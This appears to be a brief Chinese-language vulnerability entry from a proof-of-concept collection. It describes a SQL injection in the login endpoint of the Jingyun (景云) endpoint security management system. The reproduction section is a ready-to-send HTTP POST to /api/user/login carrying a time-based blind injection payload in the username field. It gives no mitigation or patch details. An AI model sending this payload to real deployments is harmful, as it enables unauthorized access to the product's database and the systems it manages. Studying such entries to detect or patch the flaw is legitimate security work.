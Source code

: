 #### 影响范围

景云终端安全管理系统

#### 漏洞概述

景云终端安全管理系统login SQL注入漏洞

#### 漏洞复现

```
POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)=
```



